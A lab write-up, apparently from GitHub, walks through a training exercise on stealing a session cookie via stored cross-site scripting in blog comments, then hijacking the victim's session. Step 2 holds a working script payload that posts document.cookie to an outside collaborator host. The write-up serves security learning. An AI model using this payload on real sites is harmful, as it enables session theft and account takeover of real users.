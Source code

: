 # Lab: Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

**Note**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

*Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.*

# Step 1 Find XSS in comments function

I enter a XSS payload in the comments:

![image](https://user-images.githubusercontent.com/83407557/210606940-11bb483d-4ea6-405b-bb96-5b5777af5f39.png)

when I view the post I see that the page tries to print, verifying XSS:


![image](https://user-images.githubusercontent.com/83407557/210607103-e8aeff48-4e8e-4aa8-acd1-3d0086cdef32.png)

# Step 2 Create a payload

First I need to get my collaborator URL:

![image](https://user-images.githubusercontent.com/83407557/210607298-8fbd90ae-b7c2-43ac-b684-1605a76ac7d0.png)

`aycd9gomwhfvcmf87n6i172tlkrbf13q.oastify.com`

Then using this URL I contruct a payload that will steal a cookie when the page is viewed:

```html
<script>
fetch('https://aycd9gomwhfvcmf87n6i172tlkrbf13q.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

# Step 3 Use XSS payload in comment:

![image](https://user-images.githubusercontent.com/83407557/210608346-3f4bff15-d99d-466f-a17d-7dd5b4714de2.png)

# Step 4 poll collaborator and find cookie

I see a POST request that contains the victem's cookie in the request body:

![image](https://user-images.githubusercontent.com/83407557/210608872-9c3d1986-9df1-4a0c-889d-e7b79336f3f2.png)

# Step 5 use cookie to hijack the victem's session:

intercepting the my-account page:

![image](https://user-images.githubusercontent.com/83407557/210609647-b42349ba-00e5-4534-bb1a-8a7decb936ed.png)

adding the cookies:

![image](https://user-images.githubusercontent.com/83407557/210610084-502d2dc4-48cd-4792-940d-d23b216c84e8.png)

Which hijacks the administrator's session and solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210610248-96bba0f4-5acf-42c7-8d09-8ed0159cc1ea.png)
